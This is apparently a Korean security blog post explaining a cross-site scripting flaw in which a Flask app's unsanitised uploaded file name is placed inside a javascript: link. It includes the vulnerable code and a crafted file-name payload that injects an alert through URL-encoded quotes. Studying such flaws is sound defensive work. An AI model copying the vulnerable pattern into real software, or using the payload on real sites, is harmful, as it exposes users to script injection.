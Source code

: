 ```yaml
---
title: XSS with Fileupload Name
date: 2023-06-07
author: glasses96
categories: [WEB]
tags: [WEB, XSS, Fileupload]
pin: true
math: true
mermaid: true
---
```


> **파일 업로드 후 다운로드 받을 때 `<a>`를 사용하여 javascript를 통해 파일 이름명으로 다운로드 받을 시 URL Encoding을 하여 XSS 취약점이 발생할 수 있습니다.**
{: .prompt-info }

---

## Source Code
먼저 flask 기반으로 만들어진 소스 코드를 알아 봅시다.
![페이지](/assets/post/30/1.png)


upload 기능과 download 기능이 존재합니다.

```py
from flask import Flask, render_template, request, send_from_directory
import os

app = Flask(__name__)

# 업로드된 파일이 저장될 폴더
UPLOAD_FOLDER = 'uploads'
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

# 파일 업로드 및 다운로드 페이지 렌더링
@app.route('/')
def index():
    # uploads 폴더에서 파일 목록 가져오기
    files = os.listdir(app.config['UPLOAD_FOLDER'])
    return render_template('index.html', files=files)

# 파일 업로드 처리
@app.route('/upload', methods=['POST'])
def upload():
    # 업로드된 파일 가져오기
    file = request.files['file']
    filename = file.filename
    # 파일 저장
    file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
    return 'File uploaded successfully.'

# 파일 다운로드 처리
@app.route('/download/<filename>', methods=['GET'])
def download(filename):
    # 파일이 저장된 폴더에서 파일 다운로드
    return send_from_directory(app.config['UPLOAD_FOLDER'], filename, as_attachment=True)

if __name__ == '__main__':
    # uploads 폴더가 없으면 생성
    if not os.path.exists(UPLOAD_FOLDER):
        os.makedirs(UPLOAD_FOLDER)
    app.run()

```

index.html 코드 입니다.
중요한 점은 `<a>` 를 사용하여 javascript로 file 이름을 받아서 location.href를 합니다.

```html
<!DOCTYPE html>
<html>
<head>
    <title>File Upload and Download</title>
</head>
<body>
    <h1>File Upload</h1>
    <form method="POST" action="/upload" enctype="multipart/form-data">
        <input type="file" name="file">
        <input type="submit" value="Upload">
    </form>

    <h1>File Download</h1>
    <ul>
        {% for file in files %}
            <li>
                <a href="javascript:download('{{ file }}')">{{ file }}</a>
            </li>
        {% endfor %}
    </ul>
    <script>
        function download(filename) {
            window.location.href = '/download/' + filename;
        }
    </script>
</body>
</html>

```



----

## FileName XSS?
만약 파일 이름에 __test.txt%27);alert(\`glasses`);(%27.txt__ 이렇게 저장하면 어떻게 될까요?

html 코드에는 아래와 같이 저장 됩니다.
```html
<a href="javascript:download('test.txt%27);alert(`glasses`);(%27 .txt')">test.txt%27);alert(`glasses`);(%27 .txt</a>
```
이중에서 핵심 코드를 보면 아래와 같이 됩니다.
```html
URL Decoding 전 : <a href="javascript:download('test.txt%27);alert(`glasses`);(%27 .txt')">
URL Decoding 후 : <a href="javascript:download('test.txt');alert(`glasses`);('.txt')">  
```


> XSS 취약점이 발생합니다.

![XSS](/assets/post/30/2.png)



## How FileName XSS?
아래의 코드로 테스트를 다시 해봅시다.
`https://`와 같이 scheme은 URL Decoding을 처리하지 않네여

```html
<a href="https://%77%77%77%2E%6E%61%76%65%72%2E%63%6F%6D">naver</a>
```
![a태그](/assets/post/30/3.png)

결론은 `<a href="~~~">` 에서 href안에 javascript로 동작하는 경우 사용자가 입력 가능한 데이터가 들어가게 될 경우 URL Decoding이 적용되기 때문에 이를 이용하여 URL Encoding을 적용하여 XSS가 터질 수 있습니다.